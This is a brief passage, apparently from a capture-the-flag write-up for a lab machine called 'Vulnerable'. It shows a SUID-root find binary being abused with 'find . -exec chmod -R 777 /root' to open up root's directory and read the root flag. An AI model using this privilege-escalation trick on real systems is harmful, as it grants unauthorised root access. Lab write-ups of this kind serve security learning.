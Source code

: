 `-r-sr-xr-x 1 root root 232196 Feb  8  2016 /usr/bin/find`

4. root.txt

```
stoner@Vulnerable:~$ find . -exec chmod -R 777 /root \;
stoner@Vulnerable:~$ ls -l /root
total 4
-rwxrwxrwx 1 root root 29 Aug 21  2019 root.txt
stoner@Vulnerable:~$ cat /root/root.txt 
It wasn't that hard, was it?
stoner@Vulnerable:~$ 
```

`It wasn't that hard, was it?`
